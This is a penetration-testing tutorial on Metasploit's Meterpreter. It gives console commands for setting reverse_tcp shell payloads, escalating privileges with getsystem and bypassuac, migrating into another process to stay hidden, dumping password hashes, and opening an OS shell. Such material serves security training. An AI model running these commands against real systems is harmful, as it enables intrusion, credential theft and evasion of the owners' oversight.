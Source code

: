 # Meterpreter

Meterpreter is a very powerful shell which runs on Anroid, BSD, Java, Linux, PHP, Python, and Windows vulnerable applications and services

It provides advanced features to gather information, transfer files between the attacker and victim machines, install backdoors and more

To list all possible Meterpreter payloads in MSFConsole:

```
search meterpreter
```

To choose a payload when attacking a Windows machine:

```
set payload windows/meterpreter/reverse_tcp
```

## Bind and Reverse

Meterpreter can both wait for a connection on the target machine or connect back to the attacker machine

Most used configurations are `bind_tcp` and `reverse_tcp`

* **`bind_tcp`** runs a server process on the target machine that waits for connections from the attacker machine
* **`reverse_tcp`** performs a TCP connection back to the attacker machine which could help evade firewall rules

```
set payload windows/meterpreter/reverse_tcp
set payload linux/x86/meterpreter/reverse_tcp
set payload windows/meterpreter/bind_tcp
set payload java/meterpreter/bind_tcp
```

## Sessions

A single instance of MSFConsole can host multiple Meterpreter sessions which means you can instance multiple shells on your targets and switch between them

To switch from a Meterpreter session to the console

```
background
```

To list currently opened sessions

```
sessions -l
```

To resume a background session

```
sessions -i <id>
```

## Information Gathering

You can perform information gathering on the exploited machine and the network it is attached to

You can retrieve:

* Information about the machine and the OS
* The network configuration in use
* The routing table of the compromised host
* Information about the user running the exploited process

### System Information

To retrieve information about the exploited machine: name, OS, architecture, system language and the Meterpreter version running:

```
sysinfo
```

![](<../../../../.gitbook/assets/image (28) (1) (1).png>)

### Network configuration

To print the network configuration:

```
ifconfig
```

![](<../../../../.gitbook/assets/image (20) (1) (1) (1) (1) (1) (1).png>)

### Routing information

```
route
```

![](<../../../../.gitbook/assets/image (15) (1) (1) (1) (1) (1) (1).png>)

### Current User

```
getuid
```

![](<../../../../.gitbook/assets/image (31) (1) (1).png>)

### Privilege Escalation

To just current privileges on Windows

```
run post/windows/gather/win_privs
```

![](<../../../../.gitbook/assets/image (33) (1) (1) (1) (1) (1).png>)

You can use `getsystem` if the owner of the process does not have high privileges on the victim system

```
getsystem
```

![](<../../../../.gitbook/assets/image (11) (1) (1) (1).png>)

### Bypassing UAC

{% hint style="info" %}
In modern Windows operating systems, the User Account Control policy prevent privilege escalation
{% endhint %}

![](<../../../../.gitbook/assets/image (25) (1) (1) (1) (1).png>)

You can bypass that restriction by u sing the `bypassuac` module

```
use exploit/windows/local/bypassuac
```

Then you have to set the session where you want to bypass UAC

```
set session <id>
```

Launch the exploit to get a new Meterpreter session with the UAC policy disabled and use `getsystem`

![](<../../../../.gitbook/assets/image (10) (1) (1).png>)

## Staying Stealthy

Checking pid with `getpid` shows the process you're currently running on

As you can imagine, this process name is not very stealthy and is also suspicious

A user checking their process list may notice something strange on their machine

![](<../../../../.gitbook/assets/image (35) (1) (1) (1) (1) (1).png>)

Therefore, in order to remain stealthy, we can use the `migrate` command to attach our session on a different process

We have to choose a process with the same privileges we currently have

```
ps -U SYSTEM
migrate <PID> //simply using migrate should work as well if you don't want to be specific
```

## Dumping the Password Database

```
use post/windows/gather/hashdump
set session <id>
exploit
```

![](<../../../../.gitbook/assets/image (16) (1) (1) (1) (1).png>)

## Exploring the Victim System

You can navigate the hard drive by using Unix-like shell commands

![](<../../../../.gitbook/assets/image (29) (1) (1) (1) (1) (1) (1).png>)

## Uploading and Downloading

![](<../../../../.gitbook/assets/image (19) (1) (1) (1) (1) (1).png>)

## Running an OS Shell

You can run a standard OS shell

```
shell
```

![](<../../../../.gitbook/assets/image (26) (1) (1) (1) (1).png>)
